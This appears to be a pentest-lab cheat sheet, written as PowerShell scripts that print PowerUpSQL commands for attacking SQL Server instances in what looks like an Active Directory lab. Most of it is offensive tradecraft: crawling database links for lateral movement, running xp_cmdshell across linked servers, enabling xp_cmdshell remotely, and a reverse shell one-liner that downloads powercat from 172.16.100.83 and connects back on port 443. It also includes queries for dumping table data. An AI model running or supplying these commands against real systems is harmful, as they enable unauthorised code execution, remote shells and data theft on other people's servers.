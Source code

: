 ```powershell
Write-Host "Get-SQLServerLink -Instance dcorp-mssql" -ForegroundColor White

Write-Host "`nStep 5: Crawl Database Links" -ForegroundColor Cyan
Write-Host "# Explore database links for lateral movement" -ForegroundColor Gray
Write-Host "Get-SQLServerLinkCrawl -Instance dcorp-mysql" -ForegroundColor White

Write-Host "`n⚠️ IMPORTANT NOTES:" -ForegroundColor Red
Write-Host "- PowerUpSQL provides comprehensive SQL Server enumeration" -ForegroundColor White
Write-Host "- Database links can enable lateral movement" -ForegroundColor White
Write-Host "- Monitor for unusual database access patterns" -ForegroundColor White
Write-Host "- Use responsibly and ethically" -ForegroundColor White
```

#### **PowerUpSQL Advanced Usage Examples**
```powershell
# PowerUpSQL Advanced Usage Examples
Write-Host "=== POWERUPSQL ADVANCED USAGE EXAMPLES ===" -ForegroundColor Green

Write-Host "`n🎯 DATABASE LINK EXPLOITATION:" -ForegroundColor Yellow
Write-Host "# Abuse using links to execute commands across database links" -ForegroundColor Cyan
Write-Host "Get-SQLServerLinkCrawl -Instance dcorp-mysql -Query 'exec master..xp_cmdshell ''whoami''' -QueryTarget eu-sql" -ForegroundColor White

Write-Host "`n🚀 REVERSE SHELL EXAMPLE:" -ForegroundColor Yellow
Write-Host "# Execute reverse shell via database links" -ForegroundColor Cyan
Write-Host "Get-SQLServerLinkCrawl -Instance dcorp-mysql -Query 'exec master..xp_cmdshell \"powershell iex ((New-Object Net.WebClient).DownloadString(''http://172.16.100.83/powercat.ps1;powercat -c 172.16.100.83 -p 443 -e powershell''));\"' -QueryTarget eu-sql32" -ForegroundColor White

Write-Host "`n⚙️ XP_CMDSHELL ENABLEMENT:" -ForegroundColor Yellow
Write-Host "# Enable xp_cmdshell if RPC out is enabled" -ForegroundColor Cyan
Write-Host "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT 'eu-sql'" -ForegroundColor White

Write-Host "`n📊 BASIC SQL SERVER QUERIES:" -ForegroundColor Yellow
Write-Host "# View all databases in an instance" -ForegroundColor Cyan
Write-Host "Get-SQLQuery -Instance <instanceName> -Query 'SELECT name FROM sys.databases'" -ForegroundColor White

Write-Host "# View all tables" -ForegroundColor Cyan
Write-Host "Get-SQLQuery -Instance <instanceName> -Query 'SELECT * FROM dbName.INFORMATION_SCHEMA.TABLES'" -ForegroundColor White

Write-Host "# View all columns in all tables in a database" -ForegroundColor Cyan
Write-Host "Get-SQLQuery -Instance <instanceName> -Query 'SELECT * FROM dbName.INFORMATION_SCHEMA.columns'" -ForegroundColor White

Write-Host "# View data in table" -ForegroundColor Cyan
Write-Host "Get-SQLQuery -Instance <instanceName> -Query 'USE dbName;SELECT * FROM tableName'" -ForegroundColor White
```
